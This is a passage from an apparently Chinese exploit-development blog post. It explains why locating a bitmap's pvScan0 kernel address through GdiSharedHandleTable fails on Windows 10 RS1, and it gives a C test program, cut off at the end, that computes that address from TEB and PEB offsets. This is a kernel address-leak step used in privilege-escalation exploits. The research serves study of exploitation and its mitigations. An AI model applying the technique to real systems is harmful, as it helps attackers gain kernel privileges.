 <small>转载请注明出处哦 :  )</small>

## 0x00 前言
哈喽，失踪人口回归了，虽然也没人看 ： )

好久没学习了 :no_mouth:

之前一段时间有些比较重要的事情，现在告一段落了

废话不多说，回归正题

## 0x01 RS1 情况分析
上一篇文章也有提到过，通过 GdiSharedHandleTable 来获取 pvScan0 的地址的利用方式在 RS1 及以后的版本已经行不通了，为什么呢？让我们看一下这段小代码在 RS1 下的运行情况

```c
// test.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"

#include <windows.h>

DWORD64 getpvScan0Address(HBITMAP handle) {
	printf("handle value: 0x%p\n", (DWORD64)handle);

	DWORD64 tebAddr = (DWORD64)NtCurrentTeb();
	printf("tebAddr: 0x%p\n", tebAddr);

	DWORD64 pebAddr = *(PDWORD64)((PUCHAR)tebAddr + 0x60);
	printf("pebAddr: 0x%p\n", pebAddr);

	DWORD64 GdiSharedHandleTableAddr = *(PDWORD64)((PUCHAR)pebAddr + 0x0f8);
	printf("GdiSharedHandleTableAddr: 0x%p\n", GdiSharedHandleTableAddr);

	// GdiSharedHandleTableAddr 是一个指向GDICELL结构体数组的指针
	// GDICELL 结构体 x86 0x10,x64 0x18
	DWORD64 pKernelAddress = GdiSharedHandleTableAddr + ((DWORD64)handle & 0xffff) * 0x18;
	printf("pKernelAddress: 0x%p\n", pKernelAddress);

	DebugBreak();

	DWORD64 surfaceObject = *(PDWORD64)pKernelAddress;
	printf("surfaceObject address: 0x%p\n", surfaceObject);
	// BASEOBJECT 结构体 x86 0x10,x64 0x18
	// pvScan0 在 SURFOBJ 结构体中的偏移 x86 0x20,x64 0x38
	DWORD64 pvScan0Address = surfaceObject + 0x18 + 0x38;
	printf("pvScan0 address: 0x%p\n", pvScan0Address);

	DebugBreak();

	return pvScan0Address;
}

int main()
{
	HBITMAP hBitmap = CreateBitmap(0x10, 0x1, 0x1, 0x8, NULL);
	if (hBitmap == NULL) {
		printf("create bitmap failed\n");
		exit(0);
	}

	getpvScan0Address(hBitmap);

```